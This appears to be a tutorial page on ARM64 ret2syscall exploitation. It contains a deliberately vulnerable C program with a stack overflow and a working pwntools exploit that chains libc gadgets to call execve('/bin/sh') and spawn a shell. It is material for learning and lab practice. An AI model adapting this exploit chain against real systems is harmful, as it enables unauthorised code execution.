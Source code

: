 # Ret2syscall - ARM64

Find an introduction to arm64 in:

[[../../../macos-hardening/macos-security-and-privilege-escalation/macos-apps-inspecting-debugging-and-fuzzing/arm64-basic-assembly.md]]

## Code

We are going to use the example from the page:

[[../../stack-overflow/ret2win/ret2win-arm64.md]]

```c
#include <stdio.h>
#include <unistd.h>

void win() {
    printf("Congratulations!\n");
}

void vulnerable_function() {
    char buffer[64];
    read(STDIN_FILENO, buffer, 256); // <-- bof vulnerability
}

int main() {
    vulnerable_function();
    return 0;
}
```

Compile without pie and canary:

```bash
clang -o ret2win ret2win.c -fno-stack-protector
```

## Gadgets

In order to prepare the call for the **syscall** it's needed the following configuration:

- `x8: 221 Specify sys_execve`
- `x0: ptr to "/bin/sh" specify file to execute`
- `x1: 0 specify no arguments passed`
- `x2: 0 specify no environment variables passed`

Using ROPgadget.py I was able to locate the following gadgets in the libc library of the machine:

```armasm
;Load x0, x1 and x3 from stack and x5 and call x5
0x0000000000114c30:
    ldp x3, x0, [sp, #8] ;
    ldp x1, x4, [sp, #0x18] ;
    ldr x5, [sp, #0x58] ;
    ldr x2, [sp, #0xe0] ;
    blr x5

;Move execve syscall (0xdd) to x8 and call it
0x00000000000bb97c :
    nop ;
    nop ;
    mov x8, #0xdd ;
    svc #0
```

With the previous gadgets we can control all the needed registers from the stack and use x5 to jump to the second gadget to call the syscall.

> [!TIP]
> Note that knowing this info from the libc library also allows to do a ret2libc attack, but lets use it for this current example.

### Exploit

```python
from pwn import *

p = process('./ret2syscall')
elf = context.binary = ELF('./ret2syscall')
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000 # ASLR disabled
binsh = next(libc.search(b"/bin/sh"))

stack_offset = 72

#0x0000000000114c2c : bl #0x133070 ; ldp x3, x0, [sp, #8] ; ldp x1, x4, [sp, #0x18] ; ldr x5, [sp, #0x58] ; ldr x2, [sp, #0xe0] ; blr x5
load_x0_x1_x2 = libc.address + 0x114c30 # ldp x3, x0, [sp, #8] ; ldp x1, x4, [sp, #0x18] ; ldr x5, [sp, #0x58] ; ldr x2, [sp, #0xe0] ; blr x5

# 0x00000000000bb97c : nop ; nop ; mov x8, #0xdd ; svc #0
call_execve = libc.address + 0xbb97c

print("/bin/sh in: " + hex(binsh))
print("load_x0_x1_x2 in: " + hex(load_x0_x1_x2))
print("call_execve in: " + hex(call_execve))

# stack offset
bof = b"A" * (stack_offset)
bof += p64(load_x0_x1_x2)

# ldp x3, x0, [sp, #8]
rop = b"BBBBBBBBBBBBBBBB" #x3
rop += p64(binsh) #x0

# ldp x1, x4, [sp, #0x18]
rop += b"C"*(0x18 - len(rop))
rop += p64(0x00) # x1
rop += b"CCCCCCCC" #x4

# ldr x5, [sp, #0x58]
rop += b"D"*(0x58 - len(rop))
rop += p64(call_execve) # x5

# ldr x2, [sp, #0xe0]
rop += b"E" * (0xe0 - len(rop))
rop += p64(0x00) # x2

payload = bof + rop

p.sendline(payload)

p.interactive()
```

